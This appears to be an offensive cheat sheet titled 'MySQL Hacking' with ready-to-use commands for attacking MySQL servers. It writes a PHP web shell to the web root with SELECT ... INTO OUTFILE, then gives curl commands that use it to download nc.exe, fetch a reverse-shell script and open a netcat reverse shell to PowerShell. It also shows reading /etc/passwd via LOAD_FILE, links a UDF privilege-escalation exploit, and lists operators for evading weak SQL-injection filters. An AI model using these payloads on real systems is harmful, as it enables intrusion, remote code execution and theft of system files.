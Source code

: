 # MySQL Hacking

## Login
For `mysql` including [[MariaDB-Hacking]]:
```bash
mysql -u $username -p $password -h $HOST
mysql -u root -h $HOST

mysql>\! sh # run a sh shell from mysql!
```

## INTO SHELL Shell
```sql
-- PHP
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
curl "http://$ip/shell.php?cmd=whoami"
curl "http://$ip/shell.php?cmd=certutil+-urlcache+-f+http://$ip/nc.exe+nc.exe"
curl "http://$ip/shell.php?cmd=wget+http://$ip/reverse_shell.sh"
curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+$ip+4444+-e+powershell.exe"
```
## Misconfigurations

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)

## Exploit 

The basic methodology for exploiting MySQL:
-   Access the remote database using administrator credentials
-   Create a new table in the main database
-   Inject PHP code to gain command execution
	    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
-   Drop table contents onto a file the user can access  
-   Execute and obtain RCE on the host.

Either 
```sql
CREATE TABLE users(
id INT AUTO_INCREMENT,
   first_name VARCHAR(100),
   last_name VARCHAR(100),
   email VARCHAR(50),
   password VARCHAR(20),
   location VARCHAR(100),
   dept VARCHAR(100),
   is_admin TINYINT(1),
   register_date DATETIME,
   PRIMARY KEY(id)
);
```

Or use `SELECT * LOAD_FILE('/etc/passwd')`

  `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

## Bypassing Defences

#### Comparison Operators

To bypass weak detection on the equals operator here are all the comparison operators in MySQL
[MySQL comparison operators](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)
```sql
>  -- Greater than operator
>=  -- Greater than or equal operator
<  -- Less than operator
<>, !=  -- Not equal operator
<=  -- Less than or equal operator
<=>  -- NULL-safe equal to operator
=  -- Equal operator
BETWEEN ... AND ...  -- Whether a value is within a range of values
COALESCE()  -- Return the first non-NULL argument
GREATEST()  -- Return the largest argument
IN()  -- Whether a value is within a set of values
INTERVAL()  -- Return the index of the argument that is less than the first argument
IS  -- Test a value against a boolean
IS NOT  -- Test a value against a boolean
IS NOT NULL  -- NOT NULL value test
IS NULL  -- NULL value test
ISNULL()  -- Test whether the argument is NULL
LEAST()  -- Return the smallest argument
LIKE  -- Simple pattern matching
NOT BETWEEN ... AND ...  -- Whether a value is not within a range of values
NOT IN()  -- Whether a value is not within a set of values
NOT LIKE  -- Negation of simple pattern matching
STRCMP()  -- Compare two strings
```
## References

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)
